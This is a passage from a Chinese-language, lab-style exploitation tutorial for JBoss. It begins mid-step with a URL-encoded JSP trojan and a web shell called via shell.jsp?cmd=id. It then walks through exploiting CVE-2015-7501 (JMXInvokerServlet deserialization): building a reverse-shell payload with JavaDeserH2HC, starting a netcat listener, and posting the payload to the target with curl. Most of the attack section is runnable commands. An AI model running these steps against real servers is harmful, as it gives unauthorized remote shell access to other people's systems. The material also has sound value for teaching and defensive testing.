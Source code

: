 * arg3为jsp木马，只不过URL编码了


![image-20241115163604047](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115163604047.png)
2. 访问 `http://your-ip:8080/jmx-console/shell.jsp?cmd=id`


![image-20241115163803260](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115163803260.png)
## CVE\-2015\-7501（JMXInvokerServlet 反序列化漏洞）



```
	Java反序列化错误类型，存在于Jboss的HttpInvoker组件中的ReadOnlyAccessFilter过滤器中没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，影响非常广
	jboss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象，从而导致了漏洞。

```

#### 漏洞发现


访问 `http://ip:port/invoker/JMXInvokerServlet`出现下载文件，即存在漏洞


#### 漏洞利用


1. 下载`JavaDeserH2HC`



```
git clone https://github.com/joaomatosf/JavaDeserH2HC.git

cd JavaDeserH2HC

```

2. 编译文件和使用工具



```
# 编译文件
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
    
# 使用工具生成反序列化字符串
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 攻击机ip:端口    

```

![image-20241115170120757](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115170120757.png)
3. 监听6666端口，使用curl将生成的文件传给Jboss



```
# 监听
nc -lvvp 6666

# 传输恶意的字符串让Jboss反序列化
curl http://靶机-ip:8080/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollecti
onsHashMap.ser

```
